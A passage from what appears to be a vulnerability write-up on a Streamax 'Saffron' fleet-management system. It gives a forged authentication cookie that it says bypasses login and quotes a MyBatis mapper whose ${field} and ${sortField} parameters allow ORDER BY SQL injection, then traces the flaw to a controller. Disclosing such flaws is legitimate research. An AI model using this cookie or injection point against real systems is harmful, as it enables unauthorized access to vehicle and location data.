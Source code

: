 ```
Cookie:Saffron.U="VUlEPTEmR0lEPTE3NTk4MTczMjgyMzg0NyZSSUQ9MSZNPUdNYXAmSU5TPTA="
```
<img width="525" height="475" alt="image" src="https://github.com/user-attachments/assets/e6a4be9c-d171-4426-8af6-66be581cb523" />

At this point, we have bypassed the authentication of this system.

### SQL Injection Vulnerability
Since the target system uses MyBatis, we only need to search globally for `${` to find overlooked vulnerabilities.  
Fortunately, we found another one!

```xml
<mapper namespace="streamax.saffron.mapper.inters.operationstate.IDeviceStateMapper">
	<select id="queryLatestFromLast" parameterType="HashMap" resultType="DeviceStateInfo">
		select a.vehicleid,a.chipcode,a.carlicense,a.platecolor,a.deviceno,a.deviceType,a.identification,b.*,c.lat,c.lng,c.speed,c.direction,c.altitude,
		d.groupname,b.ip
		from  last_devicestate as b  join vehicledeviceinfo as a on a.chipcode=b.chipcode left join location as c on b.locationid=c.id inner join groupinfo as d on a.groupid=d.groupid
		<where>
			<if test="vehicleIdList.size()>0">
				a.vehicleId in 
				<foreach collection="vehicleIdList" item="vehicleId" separator="," open="(" close=")">
					#{vehicleId}
				</foreach>
			</if>
			<if test="field==null and value!=null">
  				and (a.chipcode like concat('%',#{value},'%') or a.carlicense like concat('%',#{value},'%') 
  				or a.deviceno like concat('%',#{value},'%') or a.devicetype like concat('%',#{value},'%')
  				or a.identification like concat('%',#{value},'%'))
  			</if>
  			<if test="field!=null and value!=null">
  				and a.${field} like concat('%',#{value},'%')
  			</if>
		</where>
		<if test="sortField!=null">
			 order by ${sortField}
			 <if test="sortType=='desc'">
			 	desc 
			 </if> 
		</if>
		<if test="startIndex>=0 and endIndex>=0" >
			limit #{startIndex},#{endIndex}
		</if>
	</select>
```

This is a typical **ORDER BY injection** vulnerability. We traced back to find the source point, which is located in `streamax.saffron.controller.operationstate.DeviceStateController#Query`:
